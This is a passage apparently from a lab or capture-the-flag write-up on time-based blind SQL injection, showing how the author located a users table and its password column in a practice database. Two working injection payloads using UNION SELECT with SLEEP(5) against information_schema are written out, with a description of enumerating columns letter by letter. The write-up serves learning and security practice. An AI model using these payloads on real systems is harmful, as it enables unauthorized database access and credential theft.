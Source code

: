 Going down the rabit hole of locating a table name with the above techniques results in locating a users table using the following command:

`referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema='sqli_four' and table_name like 'users%';--`

![](Screenshots/time_based_locating_users_table.png)

I expand on this query using the same techniques as above to identify the column names:

`referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.columns WHERE table_schema='sqli_four' and table_name='users' AND COLUMN_NAME LIKE 'password%';-`

Using the above command and cycling through the letters I am able to locate an Id, username and password column similarly to above.
